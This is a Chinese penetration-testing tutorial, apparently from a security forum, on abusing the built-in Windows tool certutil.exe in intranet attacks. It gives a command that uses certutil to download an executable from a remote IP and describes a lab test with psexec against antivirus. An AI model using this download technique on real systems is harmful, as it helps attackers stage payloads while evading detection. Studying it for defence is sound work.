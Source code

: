 何为certutil
==========

`certutil.exe` 是一个合法Windows文件，用于管理Windows证书的程序。

微软官方是这样对它解释的：

> Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。

但是此合法Windows服务现已被广泛滥用于恶意用途。

渗透中主要利用其 `下载`、`编码`、`解码`、`替代数据流` 等功能。

这里我首先在命令行用`certutil -?`查看一下`certutil`所有的参数，这里只截图了一部分，接下来就总结一下最常用的几个关于`certutil`在内网渗透中的应用。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0ab8c251e98a2ea5c68eaf3daa83aba622a918a5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0ab8c251e98a2ea5c68eaf3daa83aba622a918a5.png)

certutil下载文件
============

一般我最常使用的`certutil`的功能就是在cmd环境下下载文件，因为`certutil`是windows自带的exe，所以在使用的时候会比其他exe或者vbs更加方便。但是因为在下载文件的过程中也会创建进程，所以也遭到了各大杀软的拦截。

一般使用`certutil`下载文件的命令为

```php
certutil -urlcache -split -f http://ip/artifact.exe
```

这里介绍一下参数

- `-f`  
    覆盖现有文件。  
    有值的命令行选项。后面跟要下载的文件 url。
- `-split`  
    保存到文件。  
    无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。
- `-URLCache`  
    显示或删除URL缓存条目。  
    无值的命令行选项。  
    （certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）

这里我在本地搭建一个http服务器，然后在配置了360的虚拟机cmd下进行下载

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ea4a4bd30e6302487cb663245829a8a4f02ac10d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ea4a4bd30e6302487cb663245829a8a4f02ac10d.png)

我为了更好的还原环境，先与虚拟机建立ipc连接后用psexec得到了命令行的cmd环境

这里我用常规的命令进行下载exe文件的操作遭到了av的拦截

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-29dcd7cb756ea4780c741899449eebc54a94516e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-29dcd7cb756ea4780c741899449eebc54a94516e.png)

如果超时没有操作的话就会显示拒绝访问
